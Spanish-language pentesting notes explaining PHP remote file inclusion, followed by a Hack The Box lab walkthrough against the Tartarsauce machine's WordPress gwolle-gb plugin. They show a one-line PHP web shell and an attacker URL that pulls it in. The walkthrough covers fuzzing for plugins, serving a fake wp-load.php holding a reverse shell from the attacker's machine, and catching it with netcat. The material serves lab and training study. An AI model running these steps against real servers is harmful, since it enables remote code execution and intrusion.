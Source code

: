 Inclusión remota de archivos. Vulnerabilidad en páginas dinámicas PHP que permite el enlace de archivos remotos situados en otros servidores a causa de una mala programación de la página que contiene funciones de inclusión de archivos.

Resumen del ataque:
* Funciones vulnerables --> include, include_once, require y require_once
* URL vulnerable --> `http://[servidor_victima]/index.php?page=plantilla.html`
* Atacante --> `http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt && cmd=ls`
* Archivo shell.txt --> `<? system($cmd); ?>`
* Página vulnerable --> `<? include_once($page); ?>`

==================================================================

Ataque real: 
> Máquina Tartarsauce (HTB). Puerto 80, corre un Wordpress en `http://10.10.10.88/webservices/wp`
> Fuzzing sobre plugins --> `wfuzz -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/CMS/wp-plugins_fuzz.txt http://10.10.10.88/webservices/wp/FUZZ`
> Plugin vulnerable --> gwolle-gb (RFI)
> RFI sobre la ruta --> `/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=....`
> El servidor espera cargar la página wp-load.php
> Comprobar qué página pide. Montar servidor PHP en máquina local --> `php -S 0.0.0.0:80`
> Apuntar a nuestro servidor --> `[ruta_vulnerable]?abspath=http://10.10.14.15`
> Vemos que solicita página wp-load.php
> Crear archivo wp-load.php, con contenido de reverse-shell con php de monkeypentester
> Montar puerto en escucha --> `nc -nlvp 443`
> Apuntar de nuevo desde la URL a nuestro servidor